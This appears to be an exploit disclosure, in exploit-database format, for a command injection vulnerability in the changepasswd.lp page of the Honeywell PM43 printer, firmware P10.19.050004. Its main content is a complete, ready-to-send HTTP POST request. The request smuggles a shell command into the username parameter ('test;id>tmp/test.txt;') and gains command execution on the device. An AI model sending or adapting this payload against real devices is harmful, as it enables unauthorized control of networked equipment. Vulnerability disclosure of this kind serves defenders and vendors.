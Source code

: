 

#### Exploit Title

Honeywell Products changepasswd.lp command execution

#### Exploit Author

[webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.honeywell.com

#### Version

Honeywell PM43 P10.19.050004

#### Description

There is a command execution vulnerability in Honeywell Products, through which an attacker can gain server privileges。

#### Payload used

![image-20231212105043937](./image-20231212105043937.png)

```
POST /changepasswd.lp HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_16_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf=9467508602534952371f4aa348a930869a0c61de06e2f4df0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

username=test;id>tmp/test.txt;&userpassword=123456&pageid=1
```

![image-20231212104045382](./image-20231212104045382.png)

![image-20231212104113596](./image-20231212104113596.png)


